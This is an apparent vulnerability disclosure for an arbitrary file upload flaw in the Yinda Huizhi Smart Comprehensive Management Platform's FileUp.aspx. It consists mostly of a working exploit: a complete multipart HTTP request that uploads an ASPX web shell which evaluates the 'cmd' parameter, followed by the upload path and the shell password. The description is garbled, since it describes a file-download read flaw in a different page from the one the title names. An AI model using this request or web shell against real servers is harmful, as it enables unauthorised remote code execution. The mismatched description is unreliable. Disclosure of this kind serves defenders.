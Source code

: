# Yinda Huizhi Smart Comprehensive Management Platform FileUp.aspx Any file upload vulnerability

## Vulnerability Description

Yinda Huizhi Intelligent Comprehensive Management Platform FileDownLoad.aspx There is a vulnerability to read any file in the server. Through the vulnerability attacker, any file in the server can be downloaded.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Yinda Huizhi Intelligent Comprehensive Management Platform </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627914977251-450973a6-e847-454b-817b-efa35fdc4aed.png)

File upload request package

```bash
POST /Module/FileUpPage/FileUp.aspx?orgid=1&type=NNewsContent HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 337
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=62907949903a4c499178971c9dab4ad9

--62907949903a4c499178971c9dab4ad9
Content-Disposition: form-data; name="Filedata"; filename="abc.aspx"
Content-Type: image/jpeg

<%@ Page Language="Jscript"%><%Response.Write(FormsAuthentication.HashPasswordForStoringInConfigFile("abc", "MD5").ToLower());eval(Request.Item["cmd"],"unsafe");%>
--62907949903a4c499178971c9dab4ad9--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629368451848-7ecbcd3e-82cc-4608-b9a9-a312826248ea.png)

The response package will return the file name, and the uploaded directory is

```bash
/imgnews/imgcontent/1/xxxxxxxxxx.aspx
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629368525052-fffda86a-30fa-4dc0-a3a0-537a0be5b5c3.png)

The Trojan horse is uploaded successfully as shown in the picture, with the password `cmd`